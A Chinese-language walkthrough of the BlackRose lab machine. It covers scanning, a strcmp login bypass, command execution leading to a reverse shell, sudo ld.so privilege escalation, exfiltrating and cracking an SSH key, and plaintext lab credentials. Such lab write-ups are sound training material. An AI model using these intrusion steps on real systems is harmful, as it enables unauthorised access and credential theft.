## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ sudo nmap -sT --min-rate 9999 192.168.10.7 
[sudo] kali 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 03:07 EDT
Nmap scan report for 192.168.10.7
Host is up (0.0028s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 00:0C:29:1A:88:D7 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.38 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ sudo nmap -sT -sCV -O -p22,80,3306  192.168.10.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 03:08 EDT
Nmap scan report for 192.168.10.7
Host is up (0.00049s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d1:9b:10:88:15:e9:7a:c4:1a:29:07:3c:21:87:c4:ac (RSA)
|   256 e3:50:0b:c9:e8:f1:68:7f:e7:cf:ec:de:7b:b9:20:a1 (ECDSA)
|_  256 55:0e:96:22:cc:50:20:d9:dd:c2:ff:5b:25:d0:d7:2b (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: BlackRose
|_Requested resource was login.php
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 00:0C:29:1A:88:D7 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.68 seconds
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ sudo nmap -sT --script vuln -p22,80,3306  192.168.10.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 03:09 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 192.168.10.7
Host is up (0.00052s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|_  /login.php: Possible admin folder
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.10.7:80/bootstrap/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=N%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=D%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=S%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=M%3BO%3DD%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=D%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=N%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.10.7:80/bootstrap/js/?C=S%3BO%3DA%27%20OR%20sqlspider
|_    http://192.168.10.7:80/bootstrap/js/?C=M%3BO%3DA%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3306/tcp open  mysql
MAC Address: 00:0C:29:1A:88:D7 (VMware)

```

## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.10.7/ -x php,txt  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.7/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://192.168.10.7/images/]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/img                  (Status: 301) [Size: 310] [--> http://192.168.10.7/img/]
/login.php            (Status: 200) [Size: 1463]
/register.php         (Status: 200) [Size: 1559]
/header.php           (Status: 200) [Size: 21]
/footer.php           (Status: 200) [Size: 21]
/css                  (Status: 301) [Size: 310] [--> http://192.168.10.7/css/]
/database.php         (Status: 302) [Size: 0] [--> 404.php]
/js                   (Status: 301) [Size: 309] [--> http://192.168.10.7/js/]
/logout.php           (Status: 302) [Size: 0] [--> 404.php]
/404.php              (Status: 200) [Size: 21]
/vendors              (Status: 301) [Size: 314] [--> http://192.168.10.7/vendors/]
/bootstrap            (Status: 301) [Size: 316] [--> http://192.168.10.7/bootstrap/]
/.php                 (Status: 403) [Size: 277]
/RL.php               (Status: 302) [Size: 0] [--> 404.php]
/server-status        (Status: 403) [Size: 277]
/Rx.php               (Status: 302) [Size: 0] [--> 404.php]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
====================================================
```

说实话没什么用啊



来到注册页面注册了个号，登进去，发现是有命令执行的呀

试试能不能拿到admin的号吧



判断：存在admin账号并且密码大于五个字符

然而爆破不出来
```bash
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ hydra -l admin -P passwd.txt 192.168.10.7 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<h6>Sign In</h6>"                                         
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-15 03:56:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14063730 login tries (l:1/p:14063730), ~878984 tries per task
[DATA] attacking http-post-form://192.168.10.7:80/login.php:username=^USER^&password=^PASS^:F=<h6>Sign In</h6>
[STATUS] 4384.00 tries/min, 4384 tries in 00:01h, 14059346 to do in 53:27h, 16 active
[STATUS] 4494.67 tries/min, 13484 tries in 00:03h, 14050246 to do in 52:06h, 16 active
[STATUS] 4541.29 tries/min, 31789 tries in 00:07h, 14031941 to do in 51:30h, 16 active
[STATUS] 4550.60 tries/min, 68259 tries in 00:15h, 13995471 to do in 51:16h, 16 active
[STATUS] 4567.74 tries/min, 141600 tries in 00:31h, 13922130 to do in 50:48h, 16 active
[STATUS] 4572.87 tries/min, 214925 tries in 00:47h, 13848805 to do in 50:29h, 16 active
[STATUS] 4575.70 tries/min, 288269 tries in 01:03h, 13775461 to do in 50:11h, 16 active
[STATUS] 4576.23 tries/min, 361522 tries in 01:19h, 13702208 to do in 49:55h, 16 active
[STATUS] 4580.51 tries/min, 435148 tries in 01:35h, 13628582 to do in 49:36h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```
找不到其它利用了其实

## php[]绕过及命令执行

使用strcmp()绕过
在password参数后加上[]

成功以管理员身份登录

```bash
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whoami           (?)     
1g 0:00:01:25 DONE (2024-03-15 05:52) 0.01171g/s 132.8p/s 132.8c/s 132.8C/s baubau..sugarbabe
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                    
```


此时注意到
签名与明文实际上是相同的命令whoami
那么直接使用这个签名算法去执行我们想要执行的命令即可

可以在这里改签名

这个不行

这个可以
靶机应该没有ncat这个东西

## 第一个立足点，反弹shell


```bash
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ sudo nc -lvnp 1234
[sudo] kali 的密码：
listening on [any] 1234 ...
connect to [192.168.10.3] from (UNKNOWN) [192.168.10.7] 37882
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@BlackRose:/var/www/html$ 
```

## 信息枚举


发现数据库root用户密码
尝试登录吧
root/howareyoubuddy


一个是我之前注册的123123用户
一个是admin
和之前的加密是一样的，去john破解一下试试

那么先让他破解
sudo -l看一下权限，一般我都不看。。。，www-data用户没密码的
但是我linpeas看到了一点信息，这里sudo -l是可以直接看到权限的
```bash
www-data@BlackRose:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on BlackRose:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on BlackRose:
    (delx : delx) NOPASSWD: /bin/ld.so
```

ld.so是一个和库相关的程序
说实话我不懂
但是可以以delx的身份允许

用ld.so起一个bash吧
```bash
www-data@BlackRose:/home/delx$ sudo -u delx /bin/ld.so /bin/bash
sudo -u delx /bin/ld.so /bin/bash
id
id
delx@BlackRose:~$ id
uid=1002(delx) gid=1002(delx) groups=1002(delx)
delx@BlackRose:~$ whoami 
whoami
delx
```
这下变成delx了
去登陆下delx的ssh吧
下载用私钥直接登

```bash
delx@BlackRose:~$ cd .ssh
cd .ssh
delx@BlackRose:~/.ssh$ ls -la
ls -la
total 20
drwx------ 2 delx delx 4096 Nov  7  2019 .
drwxr-xr-x 6 delx delx 4096 Dec  5  2019 ..
-rw-r--r-- 1 delx delx  390 Nov  7  2019 authorized_keys
-rw------- 1 delx delx 1766 Nov  7  2019 id_rsa
-rw-r--r-- 1 delx delx  390 Nov  7  2019 id_rsa.pub
delx@BlackRose:~/.ssh$ python -m http.server 9999
python -m http.server 9999
/usr/bin/python: No module named http
delx@BlackRose:~/.ssh$ python3 -m http.server 9999


┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ ssh2john id_rsa  
id_rsa:$sshng$1$16$EC100EF5AB09B47D4E9774BD2A5263F7$1200$ebafa06bf75afd7e5d383b21bfed39d339e2d1abdbe73beeb55623d38b650299a7733f98a2b720bb91265b316f29d67d3d6b2bebd14e43d3940e161cec84051c1c844d387f9441896cdfc3890847ba16984c1cac22cebc4c810b879189f9d2ff64f4c4cb01e2e6487b9b916bc0f1e8423b315dd5b27105ab9271385891250e6ee69208192531606baac7f57d86e752040201943c4212f7be9c60a5bff8bf362ef0223ec8117bf143c31237db93daeb375b9c4dc84d734029a4aa765d1c1ee51771906ae31f43fd8153da9b6f7a0b27a9a4dd978d3519942bc5debb1b0cceb61f239fbc00ceef4db0c4006c9cee5b69a955b64400869678e55a27201058038ab580d5b056813791b6269ccbad09e037a54773c01505105de45943b1cfacfd139479a3f6a6dfe353d1770aa00ef1ece40e6f47ee8961249f1ff475d6aec23f470fdf6596ebc549a1dc5f2cc8b1e91dddabfccffc001331612b69b91368edd14d12fc18fe5cddaa56918f99438ef8ca3d0d78909786ba4295638e68a8fd0555e17854f3f8074999b5e8efa7d869b79817dec49dcdf596b2d6000927e294c94240b0e9b19ca5a9820fcb5f662de10c6649ee1b4083c5875b169c624d613db4986b78e0cadbcd880e61b0c1cc4ffd73082a43ffa990f71da0816086185a09de82a49dacf461580ebb15b978f7dfba1add6ea3f2558dc33c75c8feab85da420fdc6d7183cda445500a9b4e4738aa21471e8886e1d3801a0408089e88e1d17add1d82462dbcaee0fb5fed9431a6a2b643ffb6a372ca03eae6aa503ad4eda2a04cc8a0f6e2851200119e3461d1bac0d49a6494220c312e33bd39cd261f3cddb0dfe986838edb823e3497a9b9a696f51f525f780bfe90ca898a977395c8a16f67d44bcffd0792ea66de0d22cc131a7bd9da76b1fe77b993bbecdf9e0478142d06a0911ee7f1cabb2c7b91e0ddfaf6dd2191f7f4d49ec6ea836763f388600356484ce5f600745cca752d51843ed4afc58022da27d4aa69a5e8a135217f8edec655cca3c89bc631329d826e38c59684877d603e118a666eaff8c94b3ddb34457e4983afabfc2d6789cd83ccac0bfd9ad6abaa3a8cd76623c9b065e2c8a77cbb2e1ac1236627d3cfd6181ab70e79ad2990439aa7e8e2c01fac4ed3a3273690ea319426f9d1ee4ac67589c78866e06afdcfa8acde3a761f346d6ca91c93638964601e58f7eb5adc4c18e4fcf28f0601ae90ebcaf74bf6cb15f3d09300ae09511825ac400645c6e3b3b160db5a715e33666146ebd806a04a57302d83b77033a96a2e2b5ec3a71b1ff7e0a460206756a60bac421d59f475c3de10db72c3db0084917e9737a4654b58c5ae4ea609350316dd346f12aac7ab27cf2ee1510144d6cbef32065598be37909a285f27d5e0db1b6811d4264156b81839c7e7c274cd498ea303d17bfd132b238cb1fb357f6d29f7aaa8d9ea91e9ba478e444258c4f1f02513c92d42568e97807f09788d6c6e17df74b258deb3cfccbaaebaa4652c91415ad7d07bab4218da4b2d8ddeee8f0452661d230126ea3ac8d0d168b31a0fb59273d9cc3f9b98f33c21f4c08bbbc832cbbc1c2190ae17a596bf80d232f931a308ba2799b53dbddedffeac91fd78582358b7971045e0918b2fc16810509f6acb99655ca3bf08e551b1e58aba13c4aba9587be16323e32a8edf
┌──(kali㉿kali)-[~/workspace/blackrose]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt sshhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doggiedog        (id_rsa)     
1g 0:00:00:00 DONE (2024-03-15 08:03) 5.000g/s 1554Kp/s 1554Kc/s 1554KC/s dolcegabanna..dodgers9
Use the "--show" option to display all of the cracked passwords reliably
```
私钥登录失败了，还是要密码，那么将私钥转为hash破解
得到密码doggiedog

```bash
delx@BlackRose:/home$ find / -user delx -type f -not -path '/proc/*' -not -path '/sys/*' 2>/dev/null
/usr/local/.../showPassword
/home/delx/.cache/motd.legal-displayed
/home/delx/.profile
/home/delx/.bash_logout
/home/delx/.bashrc
/home/delx/.ssh/id_rsa.pub
/home/delx/.ssh/id_rsa
/home/delx/.ssh/authorized_keys
/home/delx/.local/share/nano/search_history
```


把这个二进制文件放在ida里面
可以很清楚看到几个连续的字母
将它们连起来
gqSFGqAJ

